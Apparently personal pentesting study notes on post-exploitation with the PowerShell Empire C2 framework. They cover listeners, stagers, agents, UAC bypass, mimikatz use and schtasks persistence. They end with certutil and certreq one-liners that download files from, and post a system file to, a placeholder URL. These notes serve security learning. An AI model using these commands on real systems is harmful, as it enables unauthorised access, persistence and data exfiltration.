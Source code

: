 Post exploitation

04/11/2020 15:16
* Xmind notes 
--------------------------
make a docker of win7 professional 7601 sp1 x64
# **Powershell Empire**

**Powershell** is a C2(Command and Control server) which is open source
developed by **BC-Security**
Used to deploy agents onto a device and remotely run modules.
Paid alternative - Cobalt Strike C2
Used in red teaming and pentesting assisments.

So a listener and stager is to be setup.

**Listener -** Are the channels which receive connections from our target machine.



![Listner.png](../_resources/0624cc281367420e87887bddabf609c5.png)



**Stager	 -** Are used used to set the stage for the **post-exploitation** activities. They are similar to payloads, which are used to create a connection back to PowerShell Empire.
Payload get sends in Stages like particular section of payload is sent in every stage.

**Agents -** are the connection which we establish with out stages on the target machines.

**Modules -** used to perform specific function, such as deploy specific shellcode.


**For doing this you rneed to have the shell and Empire installed on host**


**GUI Version -** [Starkiller](https://github.com/BC-SECURITY/Starkiller/releases)

Default Credentials:

`Uri: 127.0.0.1:1337`
`User: empireadmin`
`Pass: password`

Modes of using Empire

REST api service:
`powershell-empire --rest`

GUI:
`./starkiller.appimage`


### Using listener 

`listeners`- enter in listening mode
`uselistener <tab>` - you can use any listeners so if the listener is **http**. So listener will be host on `port 80`

`list` - shows the activated listeners.

**Get inforamtion of used listener**
`info` - shows the information about the listeners.
Here we can also use same as metasploit set the `port` or `BindIP` or other things.

`(Empire)>(listeners)>kill 'name'` - **kill listeners**
### Using Stager

`usestager <tab>` - use any stager 

In this one we need to set our listener that we previously created.
`set Listener <name>` - name of listener that we specified previously.


`execute` - execeute the stager 

**After execution we get the Agent list by `agents`**
`rename <old_agent_name> <new_name>`

## Interacting with the targets

`interact <agent_name>` 
 
 
## Exploitation

`bypassuac` - By this one we spawn a high-integrity(admin priv.) agent like we can even start mimekatz or kiwi to exfiltration.
**we can run commands normally like we have a shell**

`info` - we have the information of our privilleges and also the process.

## Escilating the privileges

`bypassuac <listener_name>` - bypass use access control

### Using module
`usemodule <tab>` - gives the list of modules

`/persistence/elevated/schtasks*` - From this we can schedule your agent to ru when someone logs into the system.
by setting the parameter and setting up the Listener.

--------------------------
What are HTTP COMs and how they are used to conceal traffic in listeners part?

**http_com** - Uses the standard HTTP listener with an IE COM object.
**http_foreign** - Used to point to a different Empire server.
**http_hop** - Used for creating an external redirector using PHP.
**http_mapi** - Uses the standard HTTP listener with a MAPI COM object.

--------------------------

These all uses various built out services or have unique features that make them different from other listeners

**meterpreter** - Used to listen for Metasploit stagers.
**onedrive** - Utilizes OneDrive as the listening platform.
**redirector** - Uses creating pivots in a network.
**dbx** - Utilizes Dropbox as the listening platform.
**http_malleable** - Used alongside the malleable C2 profiles from BC-Security.



**Transfering file:**
`certutil -urlcache -f <url>/file file`


**Alternative:**

https://lolbas-project.github.io/lolbas/Binaries/Certreq/

`certreq -q -post -config <URL> %windir%\win.ini %appdir%\r || (if not exist %windir%\OCR certutil -urlcache -split -^f <URL> %appdir%\r &`